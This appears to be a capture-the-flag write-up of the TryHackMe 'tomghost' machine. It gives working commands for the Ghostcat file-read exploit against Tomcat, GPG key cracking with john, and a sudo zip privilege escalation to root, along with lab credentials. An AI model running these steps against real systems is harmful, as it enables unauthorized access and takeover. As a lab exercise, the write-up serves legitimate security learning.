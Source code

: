 # what I learn
- ghostcat
- gpg cracking
- gtfobin zip

# enumerating
- 22/tcp   open  ssh
- 53/tcp   open  domain
- 8009/tcp open  ajp13
- 8080/tcp open  http-proxy
  - tomcat 9.0.30

# foothold
aftersome diging, tomcat version 9.0.30 is vulnerable to Ghostcat attack or CVE-2020-1938. 
```
This vulnerability report identified a mechanism that allowed: - returning arbitrary files from anywhere in the web application - processing any file in the web application as a JSP Further, if the web application allowed file upload and stored those files within the web application (or the attacker was able to control the content of the web application by some other means) then this, along with the ability to process a file as a JSP, made remote code execution possible
```
I found a exploit scrip call [ajpShooter.py](https://github.com/00theway/Ghostcat-CNVD-2020-10487).
```console
bibo318@parrot:~/THM/tomghost$ python3 ajpShooter.py <tomcat ip:port> <ajp port> /WEB-INF/web.xml read 
```
you should recive a credential here
```html
<description>
     Welcome to GhostCat
        skyfuck:Password
</description>
```
in `skyfuck` home directory we foud 2 files.
```console
skyfuck@ubuntu:~$ file *
credential.pgp: data
tryhackme.asc:  ASCII text, with CRLF line terminators
```
1. credential.pgp : containt encrypted data/credential
2. tryhackme.asc: private block key

but where is our user flag?
```console
skyfuck@ubuntu:~$ find / -name user.txt 2> /dev/null
/home/merlin/user.txt
```
damn we dont have permission to open it but... we can use what we found to gain access as merlin


we can use john to crack `tryhackme.asc` and get the password then use the password to decrypt `credential.pgp`. let copy the prive block key to our kali and crack it using `john`.
```console
bibo318@parrot:~/THM/tomghost$ scp skyfuck@10.10.187.16:/home/skyfuck/tryhackme.asc . # copy using scp
skyfuck@10.10.187.16's password: 
```
`tryhackme.asc` is a private gpg key which john cannot handle it direckly, we need to convert the private key to a hash using `gpg2john`. thereafter we can use john to crack the hash. So let do it
```console
bibo318@parrot:~/THM/tomghost$ find / -name gpg2john 2> /dev/null
/usr/sbin/gpg2john
bibo318@kali:~# gpg2john /home/kali/THM/tomghost/tryhackme.asc /home/kali/THM/tomghost/key.txt # convert gpg key to hash for john
bibo318@kali:~# john /home/kali/THM/tomghost/key.txt -wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password        (tryhackme)
1g 0:00:00:00 DONE (2020-07-23 07:21) 10.00g/s 10720p/s 10720c/s 10720C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
now we know the password to the key, we can then import the key into our key ring. then use it to decrypt `credential.pgp`.
```console
bibo318@parrot:~/THM/tomghost$ gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
bibo318@parrot:~/THM/tomghost$ scp skyfuck@10.10.187.16:/home/skyfuck/credential.pgp . # copy it
skyfuck@10.10.187.16's password: 
credential.pgp                                                    100%  394     7.9KB/s   00:00   
bibo318@parrot:~/THM/tomghost$ gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:password
```
# root
```console
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```
no word here, just check https://gtfobins.github.io/gtfobins/zip/
# ref
- [CVE-2020-1938](https://cve.circl.lu/cve/CVE-2020-1938)
- [gifobins/zip](https://gtfobins.github.io/gtfobins/zip/)
- [ajpShooter.py](https://github.com/00theway/Ghostcat-CNVD-2020-10487)


